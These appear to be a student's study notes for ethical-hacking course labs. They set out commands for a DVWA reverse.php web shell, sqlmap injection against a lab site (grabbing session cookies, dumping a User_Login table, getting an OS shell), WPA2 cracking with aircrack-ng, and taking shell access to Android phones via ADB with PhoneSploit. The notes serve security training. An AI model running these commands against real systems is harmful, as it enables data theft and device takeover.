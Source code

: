 - Go to http://[DVWA]/dvwa/hackable/uploads/reverse.php

## Module 15: SQL Injection

### Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap (Page 75)

- Login a website
- Inspect element
- Dev tools->Console: document.cookie
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] –dbs**
  - **-u: Specify the target URL**
  - **--cookie: Specify the HTTP cookie header value**
  - **--dbs: Enumerate DBMS databases**
- Select a database to extract its tables
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] -D moviescope –-tables**
  - **-D: Specify the DBMS database to enumerate**
  - **--tables: Enumerate DBMS database tables**
- Select a table
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] -D moviescope –T User_Login --dump**
  - Get data of this table
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] --os-shell**
  - Get the OS Shell
- TASKLIST

- A request file can be used to easen the cookie and url parameters
  - Use Burp suite to intercept the request
  - Right click on the request windows and save item
  - use ```sqlmap -r REQUEST_FILE```

## Module 16: Hacking Wireless Networks

### Lab3-Task5: Crack a WPA2 Network using Aircrack-ng (Page 173)

- Having the .pcap file with the WPA2 handshake.
- **aircrack-ng -a2 -w [WORDLIST_FILE] capture.pcap**
  - **-a2**: WPA2 cracking attack

## Module 17: Hacking Mobile Platforms

### Lab 1-Task 4: Exploit the Android Platform through ADB using PhoneSploit (Page 229)

- ADB port: TCP/5555
- cd Phonesploit
- python3 -m pip install colorama
- python3 phonesploit.py
- Connect a new phone -> 3
- Enter [PHONE_IP]
- Access shell on a phone -> 4
- Navigate shell
